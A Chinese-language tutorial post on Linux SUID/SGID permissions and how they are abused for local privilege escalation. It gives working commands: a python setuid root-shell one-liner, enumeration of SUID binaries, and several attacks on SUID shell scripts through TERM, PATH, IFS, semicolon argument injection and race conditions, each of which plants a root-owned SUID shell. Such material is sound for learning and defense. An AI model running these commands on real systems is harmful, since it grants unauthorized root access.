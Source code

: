 ```yaml
---
title: Linux SUID & SGID
date: 2021-07-21 17:32:07
tags:
- 提权
- linux
categories:
- 渗透
- 知识点
---
```


## 基础知识

SUID 就是 Set User id， SGID 就是 Set Group id


### SUID

```bash
nathan@cap:~# ls -la /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 May 28  2020 /usr/bin/passwd
```

可以看到`s`这个标签在原本的`x`标签上，特点如下：

1. SUID权限仅对可执行文件有效
2. 如果执行者对这个文件有执行权限，那么将以文件的所有者权限执行
3. 本权限仅在运行的过程中有效

那么现在再看下passwd的执行过程。因为nathan拥有可执行权限，而passwd在所有者的权限是`wrs`，所以当nathan用户运行的时候是以root的权限执行的，进行修改了`/etc/shadow`。

修改成SUID的命令为
```bash
chmod 4755 /usr/bin/cat
chmod u+s /usr/bin/cat
```

### SGID

对于可执行文件特点与SUID一样，只不过是已组的权限运行的。

对于文件夹来说，如果这个文件夹的所有组被标记了`s`，特点如下：

1. 对这个文件夹拥有`r`和`x`的用户，可以进入文件夹
2. 进入文件夹后，用户的操作为文件夹用户组的操作权限
3. 如果用户拥有`w`的权限，那么用户创建文件的用户组就是这个文件夹组的用户组

```bash
chmod 2755 file_dir
chmod g+s file_dir
```

### rwS

有的文件是`S`为标记，说明没有执行权限。因为与`x`重合了所有做了区分

## 利用

suid 的利用方式常常是因为配置的可执行文件能够得到`shell`或者可以访问敏感信息。

例如，如果`cat`有了suid的权限，那么就可以访问`cat /etc/shadow`。

或者`python`有了suid，那么就可以以root权限执行`/bin/bash`从而得到root的shell

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### 查找方法

```bash
find / -perm -4000 2>/dev/null  # 查看所有suid的二进制文件
find / -perm -2000 2>/dev/null  # 查看所有sgid的二进制文件和文件夹
```

### 7种利用方法

方法参考了[这篇文章](http://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

#### 用的是csh?

```bash
% ls change-pass
-rwsr-x--- 1 root helpdesk
 37 Feb 26 16:35 change-pass
% cat change-pass
#!/bin/csh -b
set user = $1
passwd $user
```

```bash
% env TERM='`cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh`' change-pass
```

#### 引用的文件没有使用绝对路径？

```sh
% cat change-pass
#!/bin/ksh
user=$1
passwd $user
```

```bash
% export PATH='/tmp'
% echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" >/tmp/passwd
% ./change-pass
```

#### 脚本的适用范围是否过大？

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
/usr/bin/passwd $user
```

可以修改root的密码

#### 使用了临时文件？

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0 ] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

看到上面使用了临时文件，那么就意味着可以打时间差，通过疯狂循，用空覆盖掉写入的内容。
那么就跳过了检查是否为空，就可以修改root密码了。

#### 参数是否过滤，能否用分号做更多的事

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && echo "You can't change root's password!" && exit
/usr/bin/passwd $user
```

可以看到值判断是否有`$user`和`$user`是否为root。

```bash
change-pass "user;cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh"
```

#### 是否设置了IFS

**IFS(Internal Field Separator)**, 内部域分割符，set环境变量。

案例中给出了使用方法

```base
export IFS='/'
```

这样`/usr/bin/passwd` 就变成了 `usr bin passwd`，然后替换`usr`的执行就可以了，但是没有实验成功。

#### 脚本本身的风险

脚本要运行会有两个步骤：
1. 启动一个shell
2. 这个shell读取脚本的内容然后执行

那么就会有一个时间差

```bash
cd /tmp
ln -s change-pass rootme
```

```bash
$ ./rootme &
$ rm rootme && \
 echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh" \
 >> rootme
```

这个会有很大的几率读取不到完整的内容而失败，但是可以用自动化的方式实现。




